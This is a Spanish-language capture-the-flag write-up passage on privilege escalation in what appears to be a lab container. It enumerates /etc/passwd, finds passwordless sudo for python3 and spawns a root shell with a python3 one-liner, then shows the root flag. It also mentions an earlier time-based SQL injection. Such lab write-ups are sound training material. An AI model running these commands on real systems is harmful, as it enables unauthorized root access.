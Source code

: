 
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
alejandro:x:1000:1000::/home/alejandro:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ alejandro ]`:
Listando los permisos para este usuario tenemos lo siguiente:
```bash
sudo -l

User alejandro may run the following commands on 0bc8a3ddf2a5:
    (ALL) NOPASSWD: /usr/bin/python3
```

Abusamos del bianrio:
```bash
# Comando para escalar al usuario: ( root )
alejandro@0bc8a3ddf2a5:~$ sudo -u root /usr/bin/python3 -c 'import os; os.system("/bin/bash -p")'
```

---

## Evidencia de Compromiso
Flag de **root**
```bash
cat redflag.txt 
root = 2773532
```

```bash
# Captura de pantalla o output final
root@0bc8a3ddf2a5:/home/alejandro# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a explotar un login de formulario vulnerable a inyecciones SQL basdas en tiempo
2. Aprendimos a automatizar con python la inyeccion para lograr dumpear toda las base de datos
3. Aprendimos a abusar del binario de python